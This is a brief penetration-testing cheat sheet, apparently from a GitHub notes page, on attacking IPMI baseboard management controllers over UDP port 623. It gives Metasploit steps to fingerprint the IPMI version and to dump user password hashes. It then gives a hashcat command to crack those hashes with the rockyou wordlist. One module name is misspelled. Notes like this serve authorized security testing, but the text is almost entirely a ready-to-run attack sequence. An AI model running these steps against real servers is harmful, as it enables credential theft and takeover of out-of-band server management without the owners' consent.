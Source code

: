 ### Resource: https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

### UDP port: 623 (asf-rmcp)

### Identify version using Metasploit

#### 1) msfconsole

#### 2) use auxiliary/scanner/ipmi/impi_version

#### 3) set RHOSTS HOST

#### 4) run

### Then depending on the IPMI version, we can abuse the vulnerabilities below:

### Dump password hashes for users with Metasploit

#### 1) msfconsole

#### 2) use auxiliary/scanner/ipmi/ipmi_dumphashes

#### 3) set RHOSTS HOST

#### 4) run

#### 5) hashcat -m 7300 -a 0 hash /usr/share/wordlists/rockyou.txt

